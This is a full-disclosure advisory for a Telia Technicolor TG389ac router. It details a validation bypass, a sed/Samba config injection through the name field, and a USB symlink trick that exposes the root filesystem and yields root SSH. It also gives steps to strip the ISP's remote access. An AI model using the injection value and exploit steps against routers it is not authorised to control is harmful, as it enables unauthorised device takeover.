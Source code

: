 # FDEU-CVE-2020-1FC5

# Summary

Improper restricted user's input validation in Telia Technicolor TG389ac router causes local privilege escalation.

# Tech details

Telia Lithuania internet provider uses CPE (customer premise equipment) Technicolor router model TG389ac which has a restricted admin user that allows to only change some settings. Most of the advanced settings are locked down and hidden from the customer. The current firmware version is 17.1.7992 and it is known to contain vulnerabilities that allow customers to escalate privileges and unlock full access to all router's features. One of the vulnerable components called "Content sharing" allows customers to plug a USB mass storage device and share its contents using the built-in Samba server. The customer can provide a specially crafted setting using the admin's web UI that enables Samba symlink feature. Such a symlink that points to "/" will expose the router's file system with read-write access.

# Vulnerabilities

## Improper user input validation

Content sharing web administration looks like this:

![Content sharing web UI](FDEU-CVE-2020-1FC5-telia-technicolor-tg389ac-vulnerability-content-sharing.png)

When user tries to enter non-alphanumeric symbols, the error comes back:

```
Only alphanumeric, space, underscore and dash characters allowed
```

![Validation failed](FDEU-CVE-2020-1FC5-telia-technicolor-tg389ac-vulnerability-validation-failed.png)

But if the user tries to change the settings without enabling Samba, the settings will get written into the config file:

![Saved successfully](FDEU-CVE-2020-1FC5-telia-technicolor-tg389ac-vulnerability-saved-successfully.png)

However, the web UI will not allow to enable the service if the settings contain illegal symbols.

By slightly tampering the web request it is possible to bypass this verification and enable Samba with the provided malicious parameters. To modify the request simply remove the parameter `samba_filesharing=1`.

## Samba config injection

When Samba service starts it parses the parameters and uses a template file to replace placeholders and generate the runtime config smb.conf. To replace the params the following `sed` command is used in `/etc/init.d/samba`:

```
	sed -e "s#|NAME|#$name#g" \
	    -e "s#|WORKGROUP|#$workgroup#g" \
	    -e "s#|DESCRIPTION|#$description#g" \
	    -e "s#|INTERFACES|#$interfaces#g" \
	    -e "s#|CHARSET|#$charset#g" \
	    /etc/samba/smb.conf.template > /var/etc/smb.conf

```

The `sed -e` command supports multiple rules delimited by `;`. In this case it is possible to modify the rule to look like the following:

```txt
"s#|NAME|#Technicolor#g ; s#follow symlinks = no#follow symlinks = yes#g"
```

To achieve this the `$name` variable must look like:

`Technicolor#g ; s#follow symlinks = no#follow symlinks = yes`

## Privilege escalation

To exploit this vulnerability a user would need to create an EXT2 USB flash drive:

```
mkfs.ext2 /dev/sdX1
mkdir /tmp/sdX1
mount /dev/sdX1 /tmp/sdX1
cd /tmp/sdX1
touch exploit
ln -s / rootfs
cd ~
umount /tmp/sdX1
```

Plug it into the router's USB port and execute the provided PoC exploit:

[https://github.com/full-disclosure/FDEU-CVE-2020-1FC5](https://github.com/full-disclosure/FDEU-CVE-2020-1FC5)

```
# python3 tg389ac_samba_exploit.py http://192.168.1.254 admin
Password: 
[*] Init SRP authentication
[*] Get CSRF token
[*] Send authentication challenge
[*] Send authentication response
[*] Renew CSRF token
[*] Submit dummy samba config
[*] Submit samba exploit
[*] Reboot the router
b'{ "success":"true" }'
[*] Done. Wait until the router boots and open the network share
Example: \\192.168.1.254 or smb://192.168.1.254
```

Samba config will be injected with the following values:

```
follow symlinks = yes
wide links = yes
security = user
guest account = root
```

After the router reboots, Samba service will start with symlinks enabled. Navigate to `\\192.168.1.254\rootfs` and replace the `etc/config/button` file with this one:

[https://github.com/full-disclosure/FDEU-CVE-2020-1FC5/blob/master/etc-config-button]()

Now press the WPS button and in a about 10 seconds try to login on SSH as `root:root`. Change password immediately after login.

## Removing Telia's backdoor

**WARNING. By removing the backdoor you void your warranty and dissapoint Telia**

At any time Telia can remotely connect to your router and change any setting, see your traffic, sniff your secrets. We also recommend removing all Telia's backdoors.

Connect on SSH and remove `/etc/dropbear/authorized_keys` and `/home/engineer/.ssh/authorized_keys`.

Run the following:

```
uci set cwmpd.cwmpd_config.state=0
uci commit
rm /etc/cwmp*
```

Remove the following lines from `/etc/nginx/nginx.conf`:

```
listen 8443 ssl;
listen [::]:8443 ssl;
listen 8080 tproxy;

sessioncontrol.setManagerForPort("default", "8443")
sessioncontrol.setManagerForPort("assistance", "443")
```

Remove all Telia's backdoor rules from `/etc/config/firewall`: Allow-8443-VoIP, Allow-8443-WAN, Allow-SSH-VoIP, Allow-SSH-WAN. They look like this:

```
config rule
        option name 'Allow-8443-WAN'                  
        option src 'wan'
        option proto 'tcp'
        option dest_port '8443'

```

For more advanced list of what you can do with the unlocked technicolor router, please check these links:

* [https://wuseman.github.io/TG799VAC-XTREME-17.2-MINT/](https://wuseman.github.io/TG799VAC-XTREME-17.2-MINT/)
* [https://hack-technicolor.readthedocs.io/en/latest/Unlock/](https://hack-technicolor.readthedocs.io/en/latest/Unlock/)

# Timeline

* 2020-08-13 - vulnerability found and exploit created
* 2020-08-14 - full disclosure

